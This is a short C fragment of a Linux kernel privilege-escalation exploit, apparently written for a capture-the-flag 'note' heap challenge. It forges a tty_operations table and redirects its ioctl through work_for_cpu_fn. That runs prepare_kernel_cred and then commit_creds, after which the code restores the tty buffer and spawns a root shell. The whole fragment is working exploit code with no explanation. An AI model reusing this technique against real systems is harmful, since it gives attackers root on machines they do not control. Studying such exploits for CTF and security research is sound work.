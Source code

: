 ```c

    // fake tty_struct
    add(1, 0x20, "fake tty ops");
    edit(1, sizeof(struct tty_operations), "fake tty ops");

    fake_tty_ops.ioctl = (void *)kernel_offset + WORK_FOR_CPU_FN;
    note_write(1, &fake_tty_ops);

    gift(notes);
    printf("[+] tty_struct = %p\n", notes[0].ptr);
    printf("[+] tty_operations = %p\n", notes[1].ptr);

    tty_buf[4] = kernel_offset + PREPARE_KERNEL_CRED;
    tty_buf[5] = 0;
    tty_buf[3] = (size_t)notes[1].ptr;
    note_write(0, tty_buf);

    ioctl(tty_fd, 1, 1);

    note_read(0, tty_buf);
    tty_buf[4] = kernel_offset + COMMIT_CREDS;
    tty_buf[5] = tty_buf[6];

    note_write(0, tty_buf);
    ioctl(tty_fd, 1, 1);

    note_write(0, orig_tty_buf);

    get_root_shell();
}

```

